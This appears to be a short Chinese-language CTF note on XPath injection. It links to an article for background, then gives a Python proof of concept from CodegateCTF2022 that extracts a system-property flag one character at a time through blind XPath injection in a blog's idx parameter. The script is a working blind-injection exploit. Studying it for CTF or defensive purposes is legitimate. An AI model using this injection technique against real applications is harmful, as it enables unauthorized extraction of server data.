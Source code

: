 # XPath注入

## 基础部分

可以简单看看先知上的这篇文章：https://xz.aliyun.com/t/7791

## 其他

### CodegateCTF2022

本周末打了一下这个比赛，猜到了读系统配置，奈何太菜了最后没做出来

poc

```python
import requests
from string import ascii_lowercase, digits

SESSION = {'JSESSIONID':'5D31583806832F60CE7133EEEA94EA6E'}
flag = ''

for i in range(34+len('codegate2022')):
    for x in ascii_lowercase+digits+'{}':
        conn = requests.get('http://url/blog/read?idx=1%27%20and%20starts-with(system-property(%27flag%27),%27'+flag+x+'%27)%20and%271%27=%271', cookies=SESSION)
        r1 = conn.text
        if 'test' in r1:
            flag += x
            print(flag)
            break
```

